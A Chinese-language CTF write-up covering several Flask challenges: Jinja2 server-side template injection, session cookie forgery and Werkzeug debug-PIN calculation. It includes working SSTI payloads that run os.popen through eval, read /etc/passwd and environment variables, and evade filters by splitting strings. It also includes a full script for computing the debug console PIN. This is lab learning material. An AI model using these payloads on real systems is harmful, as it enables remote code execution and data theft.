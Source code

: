 # ssti
##  [NISACTF 2022]midlevel  
![e6cad88b314f899f3b2fe4efe0195fe0.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709560376063-4890d1e7-5963-47b5-b764-ea1f055b90a3.png#averageHue=%23fbfbfa&clientId=u834180e2-b7ec-4&from=paste&height=743&id=u1078e052&originHeight=929&originWidth=1634&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=75854&status=done&style=none&taskId=u3fe8cdb1-e1b4-471c-8821-b597a431ae9&title=&width=1307.2)
打开题目发现右上角显示的真实ip
![f5be66cc82b7dfc95f0723cff978c66a.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709560476242-584381f4-1760-420f-8170-3cfd79dbbd24.png#averageHue=%23f8f6f6&clientId=u834180e2-b7ec-4&from=paste&height=154&id=uc81825c7&originHeight=193&originWidth=880&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=90884&status=done&style=none&taskId=u77583828-514c-4100-9393-73c7ac77b55&title=&width=704)
当xff时有回显，然后if 语句命令执行，成功
![19172c9f582a312de37a5c0602d2934f.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709560716557-f6d739b5-ab8f-4314-b27e-c2089bd7ae9c.png#averageHue=%23edeceb&clientId=u834180e2-b7ec-4&from=paste&height=277&id=u76a0e1cc&originHeight=346&originWidth=1153&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=35613&status=done&style=none&taskId=u47b23434-c79b-474e-9017-545b39fb7d2&title=&width=922.4)
![cd310f3be939a8513975dfecad303814.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709560800566-d94358ee-cb79-4525-8fbc-95b70e23f86a.png#averageHue=%23f9f8f8&clientId=u834180e2-b7ec-4&from=paste&height=267&id=uc4f6fadf&originHeight=334&originWidth=1133&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=40447&status=done&style=none&taskId=u402bf51e-6710-47f7-875e-26d6c83895b&title=&width=906.4)
##  [HNCTF 2022 WEEK2]ez_SSTI  
![eabc50b0d2230a007702ffe218a845bf.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709561367577-bad4bbba-5ffd-413d-8891-c20f903b3c63.png#averageHue=%23d7b467&clientId=u9efd3fb2-1598-4&from=paste&height=227&id=ub61b8e1f&originHeight=284&originWidth=774&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21142&status=done&style=none&taskId=u74260f47-c98d-40a7-b37a-70f0f60e625&title=&width=619.2)
经典注入点
![20230226102815-3922049c-b57d-1.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709561861882-3d82233b-e94d-4392-a5f7-cc78f4303d5c.png#averageHue=%23fef2ee&clientId=u9efd3fb2-1598-4&from=paste&height=423&id=u82da5b60&originHeight=529&originWidth=1167&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=85029&status=done&style=none&taskId=u015cc4db-b3ae-4317-ba2f-35c6f30ae58&title=&width=933.6)
![89886c1c3ce5e5ac2afbc76a8bab000d.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709561851277-4f91cc3d-d381-4979-a77b-75719263ce85.png#averageHue=%23f4f3f3&clientId=u9efd3fb2-1598-4&from=paste&height=158&id=ube560da1&originHeight=198&originWidth=1201&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27463&status=done&style=none&taskId=u22f95930-411a-4e42-a4d1-16942e1dc8f&title=&width=960.8)
![4fbc87a633d40cba844ad3752b458d7c.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709561887540-d8022d7a-dcee-4a68-a6ac-9bcb858ff326.png#averageHue=%23f5f4f3&clientId=u9efd3fb2-1598-4&from=paste&height=150&id=ue29eed16&originHeight=188&originWidth=1220&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24157&status=done&style=none&taskId=u603e7b30-ad41-4383-a779-c853e194462&title=&width=976)
![b01282a3f76580ecae46f0e5623fcf8e.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709561920413-c5e70400-fbe7-4d9a-a5be-300924ba40f8.png#averageHue=%23f5f4f4&clientId=u9efd3fb2-1598-4&from=paste&height=154&id=ua109cbe7&originHeight=192&originWidth=1250&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=23856&status=done&style=none&taskId=ufb6c5e67-cc61-47a9-93ef-9431e4208e0&title=&width=1000)
所以大概是jinjia2
payload：?name={{"".__class__.__base__.__subclasses__()
}}
![d5658446f73c0a1213f30d9cef2c4f68.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709562138823-05dd4558-ee34-4d35-a730-fc6e05b5c090.png#averageHue=%23cea56f&clientId=u9efd3fb2-1598-4&from=paste&height=84&id=ufad265eb&originHeight=105&originWidth=371&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12216&status=done&style=none&taskId=u5f084177-ebd7-463b-ab8f-5bcdc6304aa&title=&width=296.8)	
找到getshell类：subprocess.Popen、site._Printer、_sitebuiltins._Printer、os.system方法，或者os._wrap_close类，用>查询定位
模版注入：{{"".__class__.__mro__[-1].__subclasses__()[407].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("tac flag").read()')}}
![3aba4dc75884085d6bee87daab35c380.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709563060689-d5c358d0-68df-4d74-bc17-91bcc761653c.png#averageHue=%23f3f2f1&clientId=u9efd3fb2-1598-4&from=paste&height=190&id=u8e17db57&originHeight=238&originWidth=1910&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=57887&status=done&style=none&taskId=u79d408b1-5f42-4bb9-ac76-f4f22551c4f&title=&width=1528)
## [Flask]SSTI
打开题目看到
![48c523dddd960c8f962fcdca2bcad40d.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709809217659-b3d9df01-c368-41f6-bc21-57d480118c01.png#averageHue=%23f9f9f8&clientId=u0d32116d-cbad-4&from=paste&height=85&id=u4f0c6912&originHeight=85&originWidth=266&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1327&status=done&style=none&taskId=ucc62d2db-edc4-490d-a4fd-55790e8c883&title=&width=266)
盲猜注入点是name
![7cf3aa482710167f6d68de483a7887ff.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709809247716-9eeac13a-b785-4582-bdd7-6644654dc1dc.png#averageHue=%23f5f5f5&clientId=u0d32116d-cbad-4&from=paste&height=205&id=u3e710541&originHeight=205&originWidth=849&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13819&status=done&style=none&taskId=u178266c7-0afe-47fe-aedc-5c2277089a1&title=&width=849)
成功后测试ssti模版类型
![cb8441c87698fa827eb0a399f9a3558b.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709809287797-79c8d897-cc17-4c9c-ad8e-bd55122fa676.png#averageHue=%23f5f5f4&clientId=u0d32116d-cbad-4&from=paste&height=179&id=u9726012e&originHeight=179&originWidth=863&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13416&status=done&style=none&taskId=ubfe012ac-e237-4812-bc4d-4f683cee572&title=&width=863)
jinjia2，打入模版
![b906103404c38d028258e75c246b35bd.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709814014405-8a4de3be-5ae3-4cdd-a44e-c49f15838dd9.png#averageHue=%23f7f7f6&clientId=u0d32116d-cbad-4&from=paste&height=185&id=u664d83f9&originHeight=185&originWidth=1609&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24415&status=done&style=none&taskId=u901c16d5-9070-40a0-a18b-a159516fd7c&title=&width=1609)
在源代码中可以看到子类
![d01bd5dfdb47eb131d57307161be8c19.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709815695244-5b8b39db-6911-4ed8-9db2-3c4b64a12704.png#averageHue=%23f5f4f2&clientId=u0d32116d-cbad-4&from=paste&height=359&id=ud811838e&originHeight=359&originWidth=1108&originalType=binary&ratio=1&rotation=0&showTitle=false&size=52622&status=done&style=none&taskId=ud25e1ebd-ba55-44ba-aa2d-9e9903d592e&title=&width=1108)
导入OS，成功命令执行，在环境变量找到flag
![b2374195f152c182442d429a11d25388.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709816173902-a3bdbba6-968d-486a-8e78-38340f755810.png#averageHue=%23f3f1f0&clientId=u0d32116d-cbad-4&from=paste&height=319&id=u85ba44fd&originHeight=319&originWidth=1765&originalType=binary&ratio=1&rotation=0&showTitle=false&size=70389&status=done&style=none&taskId=u36f94309-d4c4-47b3-a518-e22b11ab8d9&title=&width=1765)
网上还有一种payload
```php
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("env").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

```
# flask session伪造
##  [NSSRound#13 Basic]flask?jwt?  
![1590f72aa4dc61da2cf076ec35c7433d.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709644717290-f6da3db4-e9ce-473b-af31-116c21ebff1e.png#averageHue=%23fefefd&clientId=u6dc11363-e49a-4&from=paste&height=617&id=u81ba2022&originHeight=617&originWidth=905&originalType=binary&ratio=1&rotation=0&showTitle=false&size=15306&status=done&style=none&taskId=uf934da75-8666-4bea-9a91-ed6044fdc2b&title=&width=905)
没有账号密码无法登录，也无sql注入
打开忘记密码看到hint，猜测session伪造
![9c0610bf2ed32778690cdd4c49106b37.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709644761147-e8a10373-3c81-4c42-96bd-0393ce44a3de.png#averageHue=%23fefdfd&clientId=u6dc11363-e49a-4&from=paste&height=762&id=u9462ff7b&originHeight=762&originWidth=2249&originalType=binary&ratio=1&rotation=0&showTitle=false&size=76927&status=done&style=none&taskId=u9b3cb1a5-416e-4fe1-94fc-d6ad5df62ba&title=&width=2249)
注册账号进入后看到拿flag，但拿不了
![0df65ab4196cbc14ac003fec2140fb2b.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709645051171-b12335ee-12f2-4b60-94fc-4cfcc4ad3bb1.png#averageHue=%23f5f3f2&clientId=u6dc11363-e49a-4&from=paste&height=56&id=u716e1e55&originHeight=56&originWidth=242&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1185&status=done&style=none&taskId=u8b62047a-bbaf-4c7e-bab6-70761814b8e&title=&width=242)
看cookie，用flask-session-cookie-manager-master解密得到
![385daa9ffc6293b63d18a9dd76b06f08.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709645194775-d97b05f0-30c5-4cf9-b029-2e71e6f135bd.png#averageHue=%231b1b1b&clientId=u6dc11363-e49a-4&from=paste&height=124&id=ubeed69d4&originHeight=124&originWidth=1093&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24741&status=done&style=none&taskId=uc2ceb424-ebde-4537-8195-0df34c6597a&title=&width=1093)
猜测admin的id是1，构造session
![2ecfaac3108070c82470776f2b15c7ea.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709645244643-150eee31-54b5-4fbc-a6c4-bef10f6c55a8.png#averageHue=%23222222&clientId=u6dc11363-e49a-4&from=paste&height=125&id=uf85d77db&originHeight=125&originWidth=1098&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27471&status=done&style=none&taskId=u2b5d236d-6e2d-430e-bbaf-5f3bb24916d&title=&width=1098)
重新发包得到flag
![84cc2f4acef6767e5832f0bfc50dd910.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709645269647-952b42b9-98a5-4f1d-a580-34c4c3815d41.png#averageHue=%23f7f3f3&clientId=u6dc11363-e49a-4&from=paste&height=301&id=u379d26a9&originHeight=301&originWidth=940&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46518&status=done&style=none&taskId=u6daca066-b120-4e6f-b84e-bc7ebaaee36&title=&width=940)
# debug模式开启后的利用
## [GYCTF2020]FlaskApp
是个base64的加解密程序，源码中找到hint
![c533af0845a32412cc079c81f00ca9f1.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709817486507-2cc9c2ec-05bf-4308-a08b-7a63f9dccbbb.png#averageHue=%23e9e8e5&clientId=u0d32116d-cbad-4&from=paste&height=37&id=ua76a458e&originHeight=37&originWidth=129&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1587&status=done&style=none&taskId=u07f5db26-5a49-4e59-b768-bb5fb2d129f&title=&width=129)
解密处如果输入不正确会有Flask debug
![1bca9778aeae7a84d1e8ec325b2575e1.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709817536339-0d7268ac-e0ba-4911-840a-7de4979ee339.png#averageHue=%23fbfaf9&clientId=u0d32116d-cbad-4&from=paste&height=546&id=uf3183cf5&originHeight=546&originWidth=739&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35924&status=done&style=none&taskId=ua956de75-a66d-4310-9d98-2a9955a7a6f&title=&width=739)
找到可以打开的报错
![7596e10b1a2cb85557219763a2fb2038.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709817597892-452109a7-53ad-417b-a3a1-23def1812d21.png#averageHue=%23d1aa6b&clientId=u0d32116d-cbad-4&from=paste&height=68&id=ua50a23ce&originHeight=68&originWidth=508&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3537&status=done&style=none&taskId=uf4879a23-7f91-43b8-befe-b0e41d68e41&title=&width=508)
![7e48bc047657c4b18d2714b2445056a7.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709817619472-fae0cf95-b8b6-41fc-aec9-6d3b5ffd85b1.png#averageHue=%23faf9f7&clientId=u0d32116d-cbad-4&from=paste&height=279&id=udaaf2074&originHeight=279&originWidth=547&originalType=binary&ratio=1&rotation=0&showTitle=false&size=11957&status=done&style=none&taskId=u54b01516-3195-4fda-8d8a-a8897d07add&title=&width=547)
```php
File "/app/app.py", line 53, in decode
 
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :			//waf是可以读源码得到的
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)

```
通过ssti注入查用户名
```php
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd','r').read() }}{% endif %}{% endfor %}
```
用户名：flaskweb
![bbd2551466bfb84c7337d7b491019af9.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709820450054-07b3d335-dc69-4913-b199-84191739f62e.png#averageHue=%23f4f1e8&clientId=u0d32116d-cbad-4&from=paste&height=659&id=uf1bd23ba&originHeight=659&originWidth=761&originalType=binary&ratio=1&rotation=0&showTitle=false&size=63997&status=done&style=none&taskId=u301f370a-afab-44ee-a014-675b5a150d5&title=&width=761)
modname一般为固定值flask.app ，getattr(app, '__name__', getattr(app.__class__, '__name__'))一般为固定值Flask，flask库下app.py的绝对路径/usr/local/lib/python3.7/site-packages/flask/app.py
读文件/sys/class/net/eth0/address查mac地址
![9677efe11e528c987adbe9fedc61bd9a.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709820937884-c2d9f6f6-855f-4902-83a8-0221c2fcfa56.png#averageHue=%23faf7ec&clientId=u0d32116d-cbad-4&from=paste&height=103&id=u9799eefd&originHeight=103&originWidth=647&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5135&status=done&style=none&taskId=u9f648dac-dd3a-4ad3-ba44-c5cc8449da2&title=&width=647)
要16转10进制
linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，而docker的id在/proc/self/cgroup，所以像上面那样改一下payload就能用
![fa1ceb04b8f2c79d071bc818f5972079.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709821047393-9892c21b-01d4-47ba-bd89-64971825184f.png#averageHue=%23f5f2e6&clientId=u0d32116d-cbad-4&from=paste&height=88&id=u6f5c1ffb&originHeight=88&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6797&status=done&style=none&taskId=u472791dd-f0b3-4dd7-a96e-455117dd742&title=&width=721)
脚本计算PIN码
```php
#MD5
import hashlib
from itertools import chain
probably_public_bits = [
     'flaskweb'# username
     'flask.app',# modname
     'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
     '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]
 
private_bits = [
     '59557903926488',# str(uuid.getnode()),  /sys/class/net/ens33/address
     '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
]
 
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
 
cookie_name = '__wzd' + h.hexdigest()[:20]
 
num = None
if num is None:
   h.update(b'pinsalt')
   num = ('%09d' % int(h.hexdigest(), 16))[:9]
 
rv =None
if rv is None:
   for group_size in 5, 4, 3:
       if len(num) % group_size == 0:
          rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                      for x in range(0, len(num), group_size))
          break
       else:
          rv = num
 
print(rv)
```
![dc8f8765f5a905e2b57a2200ba0c58d2.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709821220351-94467468-8503-45a8-9bdb-8b3aa7527e1e.png#averageHue=%231e1d1b&clientId=u0d32116d-cbad-4&from=paste&height=49&id=u8fc2dd11&originHeight=49&originWidth=450&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3506&status=done&style=none&taskId=uba0b0c4f-3d4c-459d-9c9b-842593fb062&title=&width=450)
获得shell
import os
os.popen('ls /').read()
![ec5be84b667eb44a8b7455d1f764118e.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1709821411452-6e17a947-327e-45e6-885a-66b03b5df8b1.png#averageHue=%23fafafa&clientId=u0d32116d-cbad-4&from=paste&height=63&id=uf2f81191&originHeight=63&originWidth=1063&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9427&status=done&style=none&taskId=u9db0889d-218a-4597-aae9-0370ebb8533&title=&width=1063)
其他方法
```php
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eva'+'l' in b.keys() %}
{{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /this_is_the_fl'+'ag.txt").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}

```
